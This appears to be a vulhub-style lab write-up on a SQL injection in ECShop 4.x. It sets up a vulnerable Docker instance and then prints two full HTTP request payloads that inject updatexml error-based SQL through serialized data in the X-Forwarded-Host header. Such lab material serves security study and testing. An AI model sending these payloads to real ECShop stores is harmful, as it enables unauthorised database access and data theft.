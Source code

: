 # ECShop 4.x `collection_list` SQL injection

References:

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## Vulnerable environment

Execute following command to start a ECShop 4.0.6:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080` to see the installation wizard. Follow the manual, fill in the database address as `mysql`, username and password as `root` and `root`.

## Exploit

The principle of this vulnerability is similar to [xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)，arbitrary `insert_` function could be utilized to leverage the SQL injection.

There are multiple `insert_` functions that can be utilizaed. For example, the `insert_user_account`:

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```

![](1.png)

Notice that you should log in as a normal user first.

Use `insert_pay_log` as a POC:

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```

![](2.png)
